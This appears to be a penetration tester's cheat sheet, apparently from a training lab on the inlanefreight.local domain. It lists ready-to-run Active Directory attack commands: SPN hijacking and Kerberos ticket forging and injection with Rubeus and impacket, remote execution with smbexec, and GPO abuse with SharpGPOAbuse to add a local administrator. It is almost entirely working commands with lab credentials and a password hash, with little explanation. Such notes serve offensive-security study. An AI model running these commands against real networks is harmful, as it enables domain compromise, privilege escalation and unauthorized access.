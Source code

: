 ```powershell
Set-DomainObject -Identity target_PC -Set @{serviceprincipalname='MSSQL/Hijack_PC'} -Verbose

# Get Ticket
## req rc4
.\Rubeus.exe hash /domain:inlanefreight.local /user:OWN_PC$ /password:'Password123!'
## Ticket by Rubeus
.\Rubeus.exe s4u /domain:inlanefreight.local /user:OWN_PC$ /rc4:OWN_PC /impersonateuser:administrator /msdsspn:"MSSQL/Hijack_PC" /nowrap
.\Rubeus.exe tgssub /ticket:<hijack_ticket> /altservice:HTTP/target_PC /nowrap
.\Rubeus.exe ptt /ticket:<new_ticket>
## Ticket by impacket
impacket-getST -spn 'MSSQLSvc/Hijack_PC' -impersonate Administrator 'inlanefreight.local/OWN_PC$' -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip 172.19.99.10
### alt ticket
git clone -b tgssub https://github.com/ShutdownRepo/impacket/ tgssub
python3 tgssub/examples/tgssub.py -in 'Administrator@MSSQLSvc_db2000@INLANEFREIGHT.LOCAL.ccache' -altservice "cifs/target_PC" -out newticket.ccache 
#### vim /etc/hosts
KRB5CCNAME=newticket.ccache impacket-smbexec -k -no-pass SDE01


# Restore SPN
cat SPN.txt | awk '{printf "\x27%s\x27,", $0}'
## Remove hijack SPN
Set-DomainObject -Identity Hijack_PC -Set @{
serviceprincipalname=...
} -Verbose

# WinRM
Enter-PSSession -ComputerName target_PC
```

#### abuse GPO
https://github.com/juliourena/plaintext/blob/master/Powershell/Get-GPOEnumeration.ps1
```powershell
# Modify GPO priv
Get-GPOEnumeration
# Link GPOs priv
Get-GPOEnumeration -LinkGPOs
# Create GPO priv
Get-GPOEnumeration -CreateGPO

# where OU are PC
Get-DomainOU | foreach { $ou = $_.distinguishedname; Get-DomainComputer -SearchBase $ou -Properties dnshostname | select @{Name='OU';Expression={$ou}}, @{Name='FQDN';Expression={$_.dnshostname}} }

# Create GPO
New-GPO -Name TestGPO -Comment "This is a test GPO."
# Create GPO link
New-GPLink -Name TestGPO -Target "OU=TestOU,DC=inlanefreight,DC=local"

# Abuse GPO add local admin 
## --force
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount own_user --GPOName "TestGPO" 
```
